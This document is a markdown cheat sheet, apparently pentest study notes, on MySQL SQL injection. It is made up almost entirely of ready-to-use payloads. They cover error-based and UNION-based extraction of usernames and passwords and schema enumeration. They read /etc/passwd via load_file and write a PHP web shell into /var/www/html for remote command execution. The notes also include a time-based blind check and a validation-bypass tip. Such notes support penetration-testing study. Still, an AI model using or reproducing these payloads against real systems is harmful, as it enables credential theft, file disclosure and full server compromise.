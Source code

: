 # MySQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```
